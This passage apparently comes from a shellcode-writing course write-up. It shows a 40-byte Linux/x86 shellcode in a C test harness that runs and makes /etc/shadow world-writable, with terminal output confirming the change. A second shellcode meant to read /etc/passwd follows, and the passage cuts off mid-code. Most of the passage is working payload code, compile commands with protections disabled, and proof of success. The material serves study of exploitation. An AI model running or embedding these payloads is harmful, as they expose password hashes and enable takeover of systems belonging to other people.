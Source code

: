 Place it into our shellcode.c file:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\x52\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe7\x87\xdf\x66\x68\xff\x01\x59\x83\xe9\x49\xb0\x0f\xcd\x80\xb0\x01\xcd\x80";


main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```

Finally, compile and run!
```terminal_session
root@kali:~# gcc -fno-stack-protector -z execstack -m32 shellcode.c -o chmod_test
```
```terminal_session
root@kali:/etc# cp ~/chmod_test .
root@kali:/etc# ./chmod_test
Shellcode Length:  40
root@kali:/etc# ls -lah | grep shadow
-rw-rw-rw-   1 root    shadow  1.8K Jan 21 00:36 shadow
```

**Size: 40 bytes**

**Increase: 21%**

The shadow file has `666` permissions, our code was a success! 

## Shellcode 2 `Tiny Read File Shellcode - C Language - Linux/x86`

This shellcode was written by Geyslan G. Bem, and is located [here](http://shell-storm.org/shellcode/files/shellcode-842.php). This shellcode will read an arbitrary file, we will be using `/etc/passwd`.

**Size: 51 bytes** 

```c
#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = \

              "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73"
              "\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f"
              "\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03"
              "\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92"
              "\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd"
              "\x80";


main ()
{

    // When contains null bytes, printf will show a wrong shellcode length.
```